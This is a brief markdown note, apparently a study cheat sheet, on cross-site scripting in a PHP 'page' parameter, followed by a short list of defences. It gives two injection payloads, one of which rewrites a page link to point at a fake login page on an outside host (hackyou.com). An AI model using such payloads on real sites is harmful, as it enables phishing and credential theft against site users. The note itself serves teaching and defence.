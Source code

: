# Cross-site scripting

## Attack

* Check

> index.php?page=<script>alert(123)</script>

* Change login url

> index.php?page=<script>document.getElementsByTagName('a')[0].href="http://hackyou.com/xss/login.html"</script>

## Defence
* XSS Auditor (Chrome & Safari)
* php method: htmlentities()
